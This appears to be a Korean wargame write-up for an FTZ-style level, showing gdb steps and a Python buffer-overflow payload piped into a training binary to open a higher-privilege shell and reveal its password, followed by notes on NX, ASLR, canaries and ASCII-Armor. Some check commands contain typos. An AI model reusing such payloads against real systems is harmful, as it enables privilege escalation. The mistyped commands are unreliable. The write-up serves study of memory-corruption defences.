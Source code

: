 
* 0xdeadbeef가 적혀있는 **주소**를 check에 넣기  
하드코딩이란 코딩 시에 그 숫자나 문자열이 그대로 입력되어있는 것으로 이러한 방법을 통하여 공격할 수 있다는 것을 유의해야한다.  
우선 0xdeadbeef가 어디에 저장되어 있는지 알아야한다.  
```
(gdb) x/10 main+32	// main+32 함수로부터 10 byte 출력, main+29에서 0xdeadbeef를 하드코딩하고 있으므로 그 이후 메모리에 있을 것이다.
```  
<img width="454" alt="5" src="https://user-images.githubusercontent.com/46364778/89117556-9c178400-d4d9-11ea-88c2-339559a32833.PNG">  

저기 빨간색 밑줄 부분을 보면 ```0x80484b0``` 주소근처에 0xdeadbeef가 있는걸 알 수 있다.  
정확한 주소를 찾아내보자.  
<img width="188" alt="6" src="https://user-images.githubusercontent.com/46364778/89117644-6f17a100-d4da-11ea-87ee-c0a11527961e.PNG">  

```0x80484b2```에 0xdeadbeef가 정확히 들어가있음을 알 수 있다!!!  

```
(python -c 'print "\x90"*40 + "\xb2\x84\x04\x08"';cat) | ./attackme
```  

4. level16 권한으로 쉘을 열 수 있고 my-pass 명령어를 통해 비밀번호를 알아낼 수 있다. 비밀번호는 "about to cause mass"  


## 그 외  
### 버퍼오버플로우 보호 기법  
1. **DEP(Data Execution Protection) / NX(None eXecute) bit**  
* heap과 stack 같이 bof 공격에 이용되는 메모리 공간에 있는 코드를 실행시키지 않는 기법  
* NX 비트를 활성화 시켜 스택/힙 영역의 실행 권한을 제거하여 쉘의 실행을 방지하는 기법  
* 이 보호 기법에 대한 우회 기법으로 RTL(Return To Library), ROP(Return Oriented Programming)이 있다.  
* NX bit 설정 확인 명령어: ```demesg | grep NX```  

2. **ASLR(Address Space Layout Randomize)**    
* *실행할 때 마다* 각 프로세스 안의 스택이 임의의 주소에 위치하도록 하는 기법  
* ASLR 설정 확인 명령어: ```cat/proc/sys/kerel/ramdomize_va_space```  
* 설정값 = 2: 랜덤 라이브러리 / 랜덤 스택 / 랜덤 힙  
* 설정값 = 1: 랜덤 라이브러리 / 랜덤 스택  
* 설정값 = 0: ASLR 해제  
* ASLR 적용 확인 명령어: ```cat/proc/self/maps | grep stack```  

3. **Stack Canary**  
* 스택에 카나리(canary)라는 값을 넣어서 이 값이 변조되었는지 검사하여 버퍼 오버플로우가 발생하였는지 검사하는 기법  
* 카나리 종류  
-Terminator Canary : NULL(0x0)이나 CR(0xd), LF(0xa), EOF(0xff)  
-Random Canary : Terminator Canary같이 공격자가 Canary 값을 알고 우회하는 것을 방지하기 위해서 랜덤하게 생성한 값  
-Random XOR Canary : Random Canary 처럼 랜덤하게 Canary 값을 생성하고 스택의 제어 부분을 사용해서 XOR을 포함한 값  

4. **ASCII-Armor**  
* 라이브러리 함수(Libc)의 상위 주소에 \x00인 NULL 바이트를 삽입하는 기법  
* RTL 공격에 대응하기 위한 방법으로 공격자가 라이브러리를 호출하는 bof 공격을 해도 null 바이트가 삽입된 주소로는 접근할 수 없다.  

[출처1](https://blog.naver.com/PostView.nhn?blogId=is_king&logNo=221569884316&proxyReferer=https:%2F%2Fwww.google.com%2F)
[출처2](https://bpsecblog.wordpress.com/2016/05/16/memory_protect_linux_1/)


